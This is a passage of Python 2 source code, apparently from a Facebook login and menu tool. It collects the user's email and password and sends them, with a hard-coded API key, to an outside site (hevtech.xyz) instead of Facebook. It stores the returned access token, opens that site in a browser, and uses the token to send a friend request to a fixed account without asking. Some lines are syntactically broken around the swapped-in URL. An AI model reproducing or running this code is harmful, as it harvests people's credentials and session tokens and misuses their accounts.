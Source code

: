 				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url =""http://hevtech.xyz/?utm_source=fb&utm_medium=jan&utm_campaign=jan""
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\033[1;96m[✓] \x1b[1;92mLogin Done'
				os.system('xdg-open http://hevtech.xyz/?utm_source=fb&utm_medium=jan&utm_campaign=jan ')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;96m[!] \x1b[1;91myour account on Checkpoint")
			os.system('xdg-open 'http://hevtech.xyz/?utm_source=fb&utm_medium=jan&utm_campaign=jan ')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;96m[!] \x1b[1;91mPassword/Email are wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()


def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\x1b[1;91m[!] Token invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
		ots = requests.get('https://graph.facebook.com/me/subscribers?access_token=' + toket)
		b = json.loads(ots.text)
		sub = str(b['summary']['total_count'])
	except KeyError:
		os.system('clear')
		print"\033[1;91mYour Account is on Checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\x1b[1;92mThere is no internet connection"
		keluar()
	os.system("clear")